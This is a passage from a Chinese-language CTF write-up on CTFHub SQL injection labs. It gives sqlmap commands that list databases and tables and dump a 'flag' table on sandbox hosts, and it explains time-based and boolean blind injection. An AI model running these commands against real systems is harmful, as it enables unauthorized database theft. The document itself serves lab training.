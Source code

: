 和一些基本sql语法
和一些基本注释：
#，–空格，/* */

------

使用sqlmap来进行爆破

```
python sqlmap.py -u "http://challenge-ebc1cd479c500d9e.sandbox.ctfhub.com:10800/?id=1" --dbs
```

这里python sqlmap.py -u"url" -batch是基本的注入框架，“-dbs”指向数据库。

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609164002178.png" alt="image-20220609164002178" style="zoom:80%;" />

```html
python sqlmap.py -u "http://challenge-ebc1cd479c500d9e.sandbox.ctfhub.com:10800/?id=1" -D sqli --tables
```

-D是数据库，“-tables”指向爆破表名。

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609164153911.png" alt="image-20220609164153911" style="zoom:80%;" />

```
python sqlmap.py -u "http://challenge-ebc1cd479c500d9e.sandbox.ctfhub.com:10800/?id=1" -D sqli -T flag --columns --dump
```

-T是表名，-columns是爆破列名,-dump是爆数据

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609164407130.png" alt="image-20220609164407130" style="zoom:80%;" />

### **时间盲注

基于时间的盲注就是在sql注入过程中，sql语句执行的选择后，选择的数据不能回显到前端页面。此时，我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注。

**盲注原理：**

盲注的本质就是猜解，在没有回显数据的情况下，我们只能靠‘感觉’来体会每次查询时一点点细微的差异，而这差异包括运行时间的差异和页面返回结果的差异。

对于基于布尔的盲注来说，我们可以构造一条注入语句来测试我们输入的布尔表达式，而这布尔表达式结果的真假，决定了每次页面有不同的反应。

对于基于时间的盲注来说，我们构造的语句中，包含了能否影响系统运行时间的函数，根据每次页面返回的时间，判断注入的语句是否被成功执行。

使用sqlmap来进行爆破

```
python sqlmap.py -u "http://challenge-e99a1b60dec1fa53.sandbox.ctfhub.com:10800/?id=1" --dbs
```

这里python sqlmap.py -u"url" -batch是基本的注入框架，“-dbs”指向数据库。

![image-20220609171203829](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609171203829.png)

```html
python sqlmap.py -u "http://challenge-e99a1b60dec1fa53.sandbox.ctfhub.com:10800/?id=1" -D sqli --tables
```
